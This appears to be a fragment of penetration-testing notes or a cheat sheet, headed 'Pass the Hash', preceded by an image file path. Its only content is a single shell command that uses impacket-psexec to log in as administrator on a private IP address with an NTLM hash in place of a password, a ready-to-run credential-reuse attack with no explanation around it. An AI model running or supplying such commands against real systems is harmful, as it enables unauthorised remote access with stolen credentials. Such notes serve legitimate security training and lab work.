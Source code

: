 Attacks: #PtH 
# Pass the Hash
```shell-session
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```